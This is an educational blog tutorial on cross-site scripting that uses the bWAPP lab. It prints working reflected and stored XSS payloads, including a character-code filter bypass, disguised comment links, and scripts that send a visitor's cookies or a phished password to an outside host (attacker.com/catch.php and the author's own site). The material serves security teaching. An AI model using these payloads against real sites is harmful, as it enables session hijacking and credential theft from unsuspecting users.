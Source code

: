 title: Cross Site Scripting (XSS)
date: 2017-05-03
image: xss.jpg

XSS is the most common web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. The three known types of XSS vulnerabilities that we will cover are:
* Reflected XSS
* Stored XSS
* DOM Based XSS

### Javascript
The magic behind XSS attacks is the Javascript language. Javascript is the browser's language, and as such, whenever you have a webpage, you try to use javascripts to make it do what you want it do it.
To demonstrate this, you can simply open up your favorite browser (I prefer chrome) and access the console in the developer tools. *In chrome, just right click anywhere, and select inspect. Now click the console tab.*
In the console you can execute any piece of javascript you want to for testing purposes. However, it won't actually impact anyone else. Try executing the following:

    console.log('Does this even work?');
    alert('I am a bAd@$$ H@cK3r');


### Reflected XSS
Let's get started with BwaPP's 'XSS - Reflected (GET)/(POST)' exercise.
The form on the page asks us to provide a first and last name. It takes what you enter in those fields and prints into out on the page. What we can do with this is try to get that output to compromise other users using javascript.

In these exercises we are going to be using GET request exploits. So we will edit the inputs directly in the GET url.

Let's first test to see whether it will render any javascript we enter into the field. Enter the following into the last name field. You can enter anything you want into the first name field for now. Add the following to the end of your GET url.

    ?firstname=simeon&lastname=kakpovi<script>alert("hello")</script>

You should get a popup window on your screen with the word "hello".

If this works, it means the page will evaluate whatever javascript we submit inthe form. We can use that to steal an authenticated user's credentials for example.

    kakpovi<script>alert(document.cookie)</script>

Suppose the developed put something in place to prevent us from submitting javascript elements we can have the page evaluate our command in javascript based on each character's byte value.

    ?firstname=simeon&lastname
    =<script>alert(String.fromCharCode(77,77,69,32,114,48,99,107,115,33))</script>


We can also redirect the user to different website of our desire.

    ?firstname=simeon&lastname=
    <script>window.location= "http://www.simeonkakpovi.com";</script>

Although this may seem benign, it really gets malicious when you send the user's credentials also with it. The receiving website could parse the credentials without you ever knowing.


    <script>window.location="http://simeonkakpovi.com?cookie="+document.cookie;</script>


Alternatively, we can paste a link or image on the page which would take some action when the user clicks or hovers over it.


    <a onmouseover='alert("you’ve been pwned")’>Kakpovi</a>



### Stored XSS

In a stored XSS attack, the input is actually displayed to all other users that visit the site. Take for example a blog, or a comment section.

The following examples could be used to compromise visiting users.


    <a onmouseover="alert('just kidding, youve been pwned')">Hello I am
    just an innocent comment</a>



    <a href=“youtube.com” onmouseover='window.location="http://simeonkakpovi.com
    ?content="+document.cookie'>Hello I am just an innocent comment</a>



    <script>alert("We need your password!");password=prompt("Enter
    password...","");document.location="http://attacker.com/catch.php
    ?password="+encodeURI(password);</script>
